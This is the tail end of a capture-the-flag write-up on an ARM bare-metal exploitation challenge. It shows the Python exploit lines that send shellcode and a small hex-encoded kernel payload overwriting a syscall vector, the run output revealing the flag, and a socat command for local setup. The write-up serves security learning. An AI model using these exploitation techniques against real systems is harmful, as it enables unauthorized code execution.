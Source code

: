 ```
arm-none-eabi-as ./boot_sc.s && arm-none-eabi-objcopy -O binary a.out sc.bin
```

The following few lines were added to the python exploit to send the shellcode and later the kernel payload:

```python

sc = open("sc.bin", "rb").read()
x.send(sc.ljust(sc_size, "\x00"))

print "[*] Waiting for Done flag"
x.recvuntil("D\n")

print "[*] Sending kernel mode payload"

'''
This is the following code:

str r7, [r8, 4]
ldr pc, [pc, 20] 

to replace the syscall reset vector.

This way we get an arbitrary write for each syscall we make
'''
sc = "047088e514f09fe5".decode("hex")
x.send(sc.ljust(16, "\x00"))

print "[*] Go check!"

x.interactive()
```

# Show time

Finally, running this on the CTF server we got the following output:

```
bkpctf python bare.py
[+] Opening connection to 54.214.122.246 on port 8888: Done
[*] Write target: 0x440064c
[*] Paused (press any to continue)
[*] Waiting for Done flag
[*] Sending kernel mode payload
[*] Go check!
[*] Switching to interactive mode
BkP{I saw ARM on your resume...}[*] Got EOF while reading in interactive
$
```

And this concludes this very nice multi-stage exploiting challenge :)

If you are curoius and want to try it out locally, just get the files from the challenge folder and run the server with socat as follows:

```
socat TCP-LISTEN:8888,reuseaddr,fork EXEC:"./run.sh"
```

Replace the IP address in the python file and run it.

